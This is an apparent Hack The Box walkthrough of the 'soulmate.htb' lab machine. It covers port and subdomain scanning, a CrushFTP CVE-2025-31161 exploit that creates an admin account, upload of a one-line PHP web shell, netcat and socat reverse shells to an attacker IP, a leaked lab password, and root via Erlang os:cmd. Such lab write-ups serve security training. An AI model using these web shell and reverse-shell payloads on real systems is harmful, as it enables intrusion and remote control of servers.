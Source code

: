 ![Alt text for your image](images/image0.png)

# Soulmate HTB Walkthrough

This write-up documents the full exploitation process for the soulmate.htb machine, including reconnaissance, enumeration, exploitation, privilege escalation, and final root access.

-----

## 🔍 Reconnaissance

First, perform a full TCP port scan with Nmap to identify open services:

```bash
nmap -p- -Pn <target> -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && \
nmap -Pn <target> -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && \
nmap -T5 -Pn <target> -v --script vuln -oN nmap_vuln.txt
```

![Alt text for your image](images/image4.png)

-----

## 🌐 Web Enumeration

### Directory brute forcing

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://soulmate.htb/FUZZ -s
```


![Alt text for your image](images/image14.png)

### Subdomain brute forcing

```bash
ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://10.129.84.47/ -H 'Host: FUZZ.soulmate.htb' -fs 154
```

![Alt text for your image](images/image20.png)

-----

## 📂 FTP Service (CrushFTP)

The domain `ftp.soulmate.htb` resolves to a CrushFTP web interface.


![Alt text for your image](images/image19.png)

The version string found:

```
11.W.657-2025_03_08_07_52
```


![Alt text for your image](images/image18.png)

This version is vulnerable to CVE-2025-31161:

[GitHub PoC – CVE-2025-31161](https://www.google.com/search?q=https://github.com/user/repo)

### Exploit usage:

```bash
python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user test --password admin123
```

![Alt text for your image](images/image6.png)


After exploitation, we can access with our new credentials:

`http://ftp.soulmate.htb/WebInterface/UserManager/index.html`


![Alt text for your image](images/image17.png)

Then we find the users and see that we can change their password, after checking i found that ben has access to the folder where the soulmate app is running so we exploit and login to that account

![Alt text for your image](images/image8.png)

![Alt text for your image](images/image5.png)


-----

-----

## ⚡ Web Shell Access

Upload a PHP webshell via ben's account to the webProd where we see the login.php, register.php:

```php
<?=`$_GET[0]`?>

```

![Alt text for your image](images/image17.png)

Then from the soulmate.htb webapp we see that we can rce

![Alt text for your image](images/image7.png)

Trigger a reverse shell:

```
http://soulmate.htb/shell.php?0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|sh%20-i%202%3E%261|nc%2010.10.15.30%204444%20%3E%2Ftmp%2Ff
```

![Alt text for your image](images/image15.png)


-----

## 🔧 Shell Stabilization

```bash
chmod +x socatx64.bin
./socatx64.bin exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.14:4444
```

-----

## 📉 Deadend Enumeration

Some enumeration paths don’t yield privilege escalation.

We checked the config file where there was a hardcoded admin password

![Alt text for your image](images/image21.png)

![Alt text for your image](images/image13.png)

But after logging in we didn't find anything useful and any path to escalate

![Alt text for your image](images/image12.png)



-----

## 📜 Privesc search with linpeas

![Alt text for your image](images/image22.png)


![Alt text for your image](images/image2.png)

A key file is found:

```bash
cat /usr/local/lib/erlang_login/start.escript
```


![Alt text for your image](images/image11.png)


![Alt text for your image](images/image23.png)


-----

## 🔑 Credential Discovery

Inside the configs we find credentials:

```
user: ben
pass: HouseH0ldings998
```

We switch user successfully:

```bash
su ben
Password: HouseH0ldings998
```

## 🏁 User Flag

The user flag is captured.

![Alt text for your image](images/image1.png)

-----

## 🧪 Root Exploitation with Erlang

Then based on the script we ssh into the  localhost 2222 port, based on what the script was doing

![Alt text for your image](images/image3.png)


![Alt text for your image](images/image3.png)

We then discover a shell, after research i found that it is an erlang shelll and also learnt the syntax to execute on the machine

By experimenting with Erlang command execution:

![Alt text for your image](images/image9.png)

Final command for root flag:

```erlang
os:cmd("cat /root/root.txt").
```

-----

## ✅ Conclusion

We gained access through:

1.  **Enumeration** → Identified CrushFTP.
2.  **Exploitation** → CVE-2025-31161 for account creation.
3.  **Shell** → Uploaded PHP webshell.
4.  **Privilege Escalation** → Erlang `os:cmd/1` execution.
5.  Captured both `user.txt` and `root.txt`.
